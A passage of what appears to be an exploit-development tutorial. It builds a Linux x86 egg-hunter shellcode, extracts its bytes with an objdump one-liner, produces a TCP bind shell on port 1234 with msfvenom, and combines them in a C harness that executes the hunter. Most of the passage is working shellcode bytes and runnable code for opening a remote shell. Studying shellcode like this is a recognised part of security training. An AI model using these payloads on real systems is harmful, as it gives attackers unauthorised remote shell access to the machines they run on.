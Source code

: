 ## Shellcode

To get our shellcode, we can run this nifty command `objdump -d ./<PROGRAM>|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'`

Our shellcode is: 
```terminal_session
\xbb\xad\xde\xad\xde\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2
```

Looks to be null free!

## Final Testing

We'll need to add both the egg hunter shellcode and a real shellcode to our shellcode.c program and test it. Don't forget to prepend your egg to your payload twice. To generate some shellcode, let's use msfvenom to generate a bind shell.

```terminal_session
root@kali:~/petprojects# msfvenom -p linux/x86/shell_bind_tcp lport=1234 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

We'll put this in our shellcode.c program along with our egg-hunter and then call the 'hunter' which will find the 'bind' and run it. 

```c
#include <stdio.h>
#include <string.h>

unsigned char hunter[] = "\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";
unsigned char bind[] = "\x90\x50\x90\x50\x90\x50\x90\x50\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
    printf("Egg hunter length: %d\n", strlen(hunter));
    printf("Shellcode length: %d\n", strlen(bind));

    void (*s)() = (void *)hunter;
    s();

    return 0;
}
```
